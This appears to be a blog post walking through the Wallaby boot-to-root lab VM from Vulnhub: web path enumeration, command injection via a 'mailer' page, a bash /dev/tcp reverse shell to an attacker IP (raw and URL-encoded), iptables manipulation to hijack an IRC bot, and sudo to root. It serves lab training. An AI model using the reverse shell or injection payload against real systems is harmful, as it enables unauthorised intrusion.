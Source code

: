 +++
menu = "posts"
Description = "A walkthrough of the Wallaby VM from Vulnhub"
date = "2016-12-30T19:16:02-04:00"
title = "B2R: Wallaby Walkthrough"
Categories = [ "Boot2Root" ]
+++

## Executive Summary

This machine had an unlisted but open webapp path that allowed for remote command execution. After
establishing a reverse shell as the limited user `www-data`, privilege checks showed the user was allowed to
modify firewall rules. There was also an IRC server that contained a bot that allowed command execution
through the use of the `.run` command. The command would only obey the user `waldo` so modification of the
firewall allows an attacker to kick and assume the `waldo` identity. Now the `.run` command could be run and
a reverse shell with the user `wallaby` could be established. `wallaby` had password-less sudo access, so
elevating to the root user was trivial.


## Tools Used

* nmap - service enumeration
* uniscan - webapp scanner


## Proof of Concept

Upon enumerating available services with nmap, I discovered two ports, 22 and 80. I began to scan with
`uniscan` but this failed and caused the VM to move the web application to a different port. It appeared that
automated tools were going to make this challenge harder, not easier.

After another scan, we find our new port:

![](https://i.imgur.com/U7eKOCh.png)
![](https://i.imgur.com/xuPADKd.png)


Various sorts of manual testing gave us different messages:

![](https://i.imgur.com/WwMxNnj.png)
![](https://i.imgur.com/IS2BlBh.png)

At this point, I decided to automate my enumeration of pages with a custom script.

~~~bash.prettyprint
for word in $(cat /usr/share/dirb/wordlists/common.txt); do
    
    # find pages whose last line does NOT contain the phrase 'what are you trying' ( a 404, essentially )
    curl -q "vm:60080/?page=$word" 2>/dev/null | tail -1 | grep -v 'what are you trying'

    if [[ $? -eq 0 ]]; then
        #if the last command command completed succesfully, print the word we foun
        echo $word
    fi
done | grep -v "/" # don't print results with slashes in them, they're false positives
~~~

This output yielded the pages.

~~~bash.prettyprint
contact
mailer
home
index
blacklist
name
~~~

The most interesting page here was `mailer`:

![](https://i.imgur.com/TNJEtuI.png)

I attempted to see if the `mail` query parameter actually passed through as a system command. It did:

![](https://i.imgur.com/9Yu6Zky.png)

From here we can set up a listener and run a reverse shell by feeding in url encoded commands to the `mail`
query parameter:

~~~bash.prettyprint
bash -c "bash -i >& /dev/tcp/192.168.1.177/443 0>&1"

# becomes

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.177%2F443%200%3E%261%22
~~~

![](https://i.imgur.com/tWhvBSP.png)

Enumerating this user's privileges and networking, we determine that we have control of firewall rules,
there's a rule blocking incoming requests to port 6667, and that there's an IRC server running locally.

![](https://i.imgur.com/1slTkmg.png)

![](https://i.imgur.com/uxK21ov.png)


We can clear the firewall rules with `sudo iptables -F` and connect to the IRC server from the attacking
machine.

![](https://i.imgur.com/b0NDIKS.png) 

![](https://i.imgur.com/IoX9DnK.png) 

If we try to run the `.run` command, `wallabysbot` refuses.

![](https://i.imgur.com/R5Vwo3f.png) 

The code for the and configs for the bot are located in `/home/wallaby/.sopel` and it indicates that we need
to assume the nickname `waldo` in order for us to be able to use this command. We can't do that while waldo
is still logged in so we boot them off with the use of our firewall.

~~~bash.prettyprint
sudo iptables -I OUTPUT -p tcp -m owner --uid-owner 1000 --dport 6667 -s 127.0.0.1 -j DROP
~~~

![](https://i.imgur.com/KCH7TX6.png)

In a while, after a timeout, only `waldo` should be ejected from the room, leaving the ability to steal his
nick and command the bot.

![](https://i.imgur.com/1TnwYcT.png)


With a reverse shell established, we can see that the wallaby user has full, passwordless `sudo` access. From
here, it's just one command to `root`

![](https://i.imgur.com/Ds0KVYg.png)


Thanks to Waldo and Vulnhub for this frustrating but entertaining VM!



## Additional Information

* User `waldo` is running irssi within a tmux session. The socket is located in `/tmp/tmux-1000`
* There exists an irssi DoS vulnerability that could have been used to boot the `waldo` user to assume
  control of the bot.
* The `.py` modules (which runs python commands), at the time of this writing makes an external call to an
  out-of-scope API. It does not run the python command on the target machine. 
* There are at least 3 ways to get a limited shell and at least 2 to get root.

